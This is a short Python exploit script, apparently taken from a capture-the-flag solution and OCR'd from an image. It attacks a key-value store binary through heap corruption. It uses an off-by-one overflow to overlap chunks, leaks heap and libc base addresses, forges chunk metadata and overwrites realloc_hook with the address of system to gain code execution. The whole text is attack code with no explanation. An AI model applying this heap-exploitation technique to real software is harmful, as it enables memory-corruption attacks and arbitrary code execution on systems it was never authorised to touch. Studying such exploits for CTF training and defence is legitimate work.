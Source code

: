 ```python
one_gadget8 = 0xf66c0

DEL("th3fl4g")

PUT("A"*0x8, 0x80, p8(0)*0x80)
PUT("B"*0x8, 0x18, p8(0)*0x18)
PUT("C"*0x8, 0x60, p8(0)*0x60)
PUT("C"*0x8, 0xf0, p8(0)*0xf0)
PUT("D"*0x8+p64(0)+p64(0x200), 0x20, p8(0)*0x20)  # off by one

DEL("A"*0x8)
DEL("C"*0x8)

PUT("a", 0x88, p8(0)*0x88)
DUMP()

p.recvuntil("INFO: Dumping all rows.\n")
temp = p.recv(11)
heap_base = u64(p.recv(6).ljust(8, "\x00"))-0x3f0
libc_base = int(p.recvline()[3:-7])-0x3c4b78

log.info("heap_base: " + hex(heap_base))
log.info("libc_base: " + hex(libc_base))

payload = p64(heap_base+0x70)
payload += p64(0x8)
payload += p64(heap_base+0x50)
payload += p64(0)*2
payload += p64(heap_base+0x250)
payload += p64(0)+p64(0x41)
payload += p64(heap_base+0x3e0)
payload += p64(0x88)
payload += p64(heap_base+0xb0)
payload += p64(0)*2
payload += p64(heap_base+0x250)
payload += p64(0)*5+p64(0x71)
payload += p64(libc_base+realloc_hook_off)
PUT("b"*0x8, 0xa8, payload)

payload = p64(0)*3+p64(0x41)
payload += p64(heap_base+0x290)
payload += p64(0x20)
payload += p64(heap_base+0x3b0)
payload += p64(0)*4+p64(0x21)
payload += p64(0)*3
PUT("c"*0x8, 0x78, payload)

payload = p64(0)+p64(0x41)
payload += p64(heap_base+0x90)
payload += p64(0x8)+p64(heap_base+0x230)
payload += p64(0)*2+p64(heap_base+0x250)
payload += p64(0x1)+p64(0)*3
PUT("d"*0x8, 0x60, payload)

#one_gadget = libc_base+one_gadget2
system_addr = libc_base+system_off
#payload = p8(0)*0x13
payload = p8(0)*0xb
#payload += p64(one_gadget)
payload += p64(system_addr)
#payload += p8(0)*0x45
payload += p8(0)*0x4d
PUT("e"*0x8, 0x60, payload)
```